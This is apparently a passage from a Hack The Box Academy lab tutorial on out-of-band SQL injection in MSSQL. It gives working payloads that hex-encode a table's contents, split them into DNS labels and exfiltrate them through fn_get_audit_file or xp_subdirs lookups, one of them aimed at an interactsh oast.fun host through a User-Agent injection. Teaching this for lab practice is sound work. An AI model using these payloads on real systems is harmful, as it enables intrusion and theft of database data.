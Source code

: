 **Note:** Notice how in all of the above payloads we start by declaring `@T` as `VARCHAR` then add our query within it, and then we add it to the domain. This will become handy later on when we want to split `@T` into multiple strings so it fits as a sub-domain. It is also useful to ensure whatever result we get is a string, otherwise it may break our query.

## Limitations

The characters which can be used in domain names are (basically) limited to numbers and letters. In addition to this, labels (the part between dots) can be a maximum of `63` characters long, and the entire domain can be a maximum of `253` characters long. To deal with these limitations, it may be necessary to `split` up data into multiple exfiltration requests, as well as `encode` data into hex or base64 for example.

To bypass this limitation, we can replace the `@T` declaration at the beginning of the above payloads with the following query to ensure the result of the query defined within `@T` gets encoded and split into `2` strings shorter than `63` characters:

```sql
DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) from flag; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63);

```

The payload basically uses an SQL query that declares the variable `@T`, `@A`, and `@B`, then selects `flag` from the `flag` table into `@T`, split the result to `@A` and `@B`, and finally tries to access a URL `@A`. `@B`. `OUR_URL` which we can read through our DNS history.

A final payload example would look like the following:

```sql
DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) from flag; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63); SELECT * FROM fn_get_audit_file('\\'+@A+'.'+@B+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);

```

## Interact.sh

Interactsh ( [Github](https://github.com/projectdiscovery/interactsh)) is an open-source tool you can use for detecting OOB interactions including DNS requests. It works on both Linux and Windows.

You can use the in-browser version by visiting [https://app.interactsh.com](https://app.interactsh.com). It might take a couple of seconds to load up, but once it's ready there will be a domain you can copy to your clipboard.

![image](https://academy.hackthebox.com/storage/modules/177/amdonuts/13.png)

As an example, we can enter the following payload (from the list above) into the `User-Agent` vulnerability, which will exfiltrate the flag (hex-encoded) in only one request!

```sql
';DECLARE @T VARCHAR(MAX);DECLARE @A VARCHAR(63);DECLARE @B VARCHAR(63);SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) FROM flag;SELECT @A=SUBSTRING(@T,3,63);SELECT @B=SUBSTRING(@T,3+63,63);EXEC('master..xp_subdirs "\\'+@A+'.'+@B+'.cegs9f52vtc0000z2jt0g8ecwzwyyyyyb.oast.fun\x"');--

```

